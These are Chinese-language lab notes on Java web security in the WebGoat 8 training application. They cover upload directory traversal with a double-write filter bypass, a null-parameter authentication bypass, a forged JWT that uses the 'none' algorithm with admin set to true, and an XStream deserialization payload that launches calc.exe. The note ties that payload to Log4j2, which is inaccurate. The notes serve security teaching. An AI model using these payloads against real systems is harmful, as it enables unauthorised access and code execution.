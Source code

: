 ![1645090022103-7a690873-96a8-47c2-8c06-6b03ffbb0699.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111541171-1744394242.png)

```plain
#知识点：
1、JavaWeb常见安全及代码逻辑
通过URL信息来对应源码文件。没有代码的情况下很难渗透。
2、目录遍历&身份验证&逻辑&JWT
3、访问控制&安全组件&越权&三方组件
```

- #### JavaWeb-WebGoat8靶场搭建使用

```plain
• https://blog.csdn.net/Petrichoryi/article/details/105930751
• 压缩到jar包里面。
• 如何启动：安装jdk，运行java.exe -jar webgoat --server.port= 9091
• 
• java -jar webgoat-server-8.1.0.jar --server.port=8091
访问ip+WebGoat/login.html，注册账号登录就可以了。
```

![1645090432523-f55a8ddf-e86b-4f6b-aa7c-2bfd0bebcdac.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111556474-1572944158.png)

- #### 安全问题-目录遍历&身份认证-JWT攻击

```plain
目录遍历：
解决问题：当前目录不能执行，上传至别的目录进行执行脚本
上传上去的地址：
```

![1645090478337-3004bca5-cced-41ac-9f0b-dc57e7d1ccd9.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111609050-1342606588.png)

```plain
目标地址：
```

![1645090514532-60d46d4a-cff1-472c-b24b-ab9d1b92b549.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111616236-1728339114.png)

```plain
抓取上传数据包：
```

![1645090540768-f0d24f42-0a24-4e73-8362-eefb31931729.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111630201-1171174763.png)

```plain
找到相对应触发的代码段：
```

![1645090563673-4e6b630e-2dbb-4191-b322-211e1d2efbe6.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111644817-1717167368.png)

```plain
关键代码：
publicAttackResultuploadFileHandler(@RequestParam("uploadedFile")MultipartFilefile,@RequestParam(value="fullName",required=false)StringfullName){
returnsuper.execute(file,fullName);
}

接受uploadedfile
对应抓包：
```

![1645090590593-e952b99e-04b9-4c72-8bbd-f83e4f6eb53a.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111655166-2135752443.png)

```plain
把test修改为1后，发现返回数据包：
```

![1645090613708-9d6820b6-ec16-4c80-8340-2362e125610a.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111903769-1808292281.png)

```plain
把fullname修改为：
```

![1645090640654-ceb5e2d4-dd6a-4737-af25-14d31078a384.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111913618-128187184.png)

```plain
成功过关。
第三关，用同样的方式没有用了，打开相对应的代码，发现关键的过滤：
```

![1645090671142-2661347f-c4c2-4820-a2f4-0ea4414b9013.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111921258-1988537304.png)

```plain
但是这个过滤知识一次性的，并不是很严格。
双写绕过：
```

![1645090695663-6cd93f1d-55ae-4601-89a6-e8ee4ea53597.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111931173-1696608880.png)

```plain
解决问题：当前上传的文件所在的文件夹不解析。
```

```plain
身份认证：
认证问题答案，很多选项：
你叫什么名字等等.....只有两个问题

接受键名和键值
s0=xiaodi&s1=湖北 正确
s3=null&s4=null发送数据
s3 s4为空，相当于NULL，那么就能进行绕过。
安全验证：
固定接受的数据：s0 s1判断你的数据 正常
不固定：s0 s1 正常
不固定：s2 s3不在数据库或者变量内，攻击者就能测试。
URL触发连接，访问地址：auth-bypass/verify-account
```

![1645090757002-b1485312-0b9a-472f-8074-24fd99a2a170.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111958077-54468339.png)

```plain
找到对应的代码段
```

![1645090781845-a40b7ac8-ce83-4674-92ee-2c6b7d4099b6.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912112012284-2050173019.png)

```plain
JWT：
https://www.cnblogs.com/vege/p/14468030.html
三部分构成，以.分隔，出现在cookie上。
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
对比cookie
解密平台：https://jwt.io/

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```

![1645090823771-e440ff15-aa42-488b-a1b0-be6b9c9be9a0.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912112023321-403213359.png)

```plain
切换账号，抓包发现：
```

![1645090849303-a64b5ee3-4172-41e5-9536-957e2744869c.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912112035790-1781663205.png)

```plain
cookie：eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE2NDMxOTk5MzYsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiVG9tIn0.C_2nlYK5_bhv5RHnRbPW7sxIkZsaPN-AYX3xBwo3n5PeIzdK7G1-sjJjo8qIaH_JHZVaR7amGQTdNiEjYAkAMg

解密后：
```

![1645090882379-37aa8e05-4fc6-4fc3-b70e-2e2e7c56b1aa.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912112044811-173805144.png)

```plain
攻击：1.空加密算法 2.爆破 3.KID
1.空加密算法：
生成字符串：算法模式+秘钥（缺一不可）
忽略秘钥生成，需要服务器支持不要秘钥签名（空模式加密）
抓到数据包
```

![1645090919289-7bbcad21-14bc-44b6-8ce5-56f90bd259a6.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912112055515-661741469.png)

```plain
找到相对应的代码段发现可以空加密然后用python脚本去写空加密jwt
eyJhbGciOiJub25lIn0.eyJpYXQiOjE1NzM0NzAwMjUsImFkbWluIjoidHJ1ZSIsInVzZXIiOiJKZXJyeSJ9.


2.爆破：
```

- #### 安全问题-访问控制&安全组件-第三方组件

```plain
-联想到刚爆出的Log4j2
<sorted-set>
 <string>foo</string>
 <dynamic-proxy>
 <interface>java.lang.Comparable</interface>
 <handler class="java.beans.EventHandler">
 <target class="java.lang.ProcessBuilder">
 <command>
 <string>calc.exe</string>
 </command>
 </target>
 <action>start</action>
 </handler>
 </dynamic-proxy>
</sorted-set>
```

![1645090991052-86a27d1e-9568-4323-bed6-e11e56752f56.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912112112921-1896572997.png)